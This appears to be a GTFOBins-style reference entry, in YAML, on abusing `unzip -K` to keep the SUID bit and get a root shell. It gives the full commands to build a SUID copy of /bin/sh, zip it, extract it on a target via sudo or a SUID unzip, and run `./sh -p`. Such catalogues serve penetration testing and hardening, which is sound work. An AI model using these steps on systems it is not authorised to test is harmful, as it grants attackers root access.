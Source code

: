 ```yaml
---
description: |
  Certain `unzip` versions allows to preserve the SUID bit. Prepare an archive beforehand with the following commands as root:

  ```
  cp /bin/sh .
  chmod +s sh
  zip shell.zip sh
  ```

  Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).
functions:
  sudo:
      code: |
        sudo unzip -K shell.zip
        ./sh -p
  suid:
      code: |
        ./unzip -K shell.zip
        ./sh -p
---
```

